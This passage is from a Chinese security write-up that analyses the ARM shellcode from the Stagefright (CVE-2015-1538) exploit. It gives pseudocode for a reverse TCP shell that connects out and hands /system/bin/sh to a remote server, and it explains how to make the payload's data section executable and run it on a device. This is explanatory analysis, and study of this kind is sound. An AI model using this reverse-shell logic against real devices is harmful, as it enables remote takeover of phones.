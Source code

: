     .data:0000210D 00                                      DCB    0
    

payload通过svc指令调用相应的linux函数，相应的函数已备注在汇编代码中，这段代码功能是通过tcp连接远程服务器的特定端口，伪代码如下：

    
    
    r = fork();
    if r<>0
    exit_thread();
    setsid();
    s = socket(2,1,6);
    connect(s, socaddr, 0x10);
    dup2(s,0);//@stdin
    dup2(s,1);//@stdout
    dup2(s,2);//@stderr
    execve("/system/bin/sh", "sh", "PATH=/sbin:/vendor/bin:/system/sbin:/system/bin:/system/xbin");
    

loader编译后直接运行会失败，这是因为payload存储在“.data”节中，其属性是“Read”的，需要为该节增加“Execute”属性才会运行成功。这里使用010 Editor的ELFTemplate为“.data”节增加“Execute”属性：

![p1](http://static.wooyun.org//drops/20151130/2015113014391163457p110.jpg)

然后push到设备中，即可运行成功：

![p2](http://static.wooyun.org//drops/20151130/2015113014391330876p29.jpg)

# 0x02 参考

* * *

  1. <https://blog.zimperium.com/the-latest-on-stagefright-cve-2015-1538-exploit-is-now-available-for-testing-purposes/>
  2. <https://github.com/jduck/cve-2015-1538-1>
  3. <https://github.com/rapid7/metasploit-framework/blob/master/modules/payloads/singles/linux/armle/shell_reverse_tcp.rb>

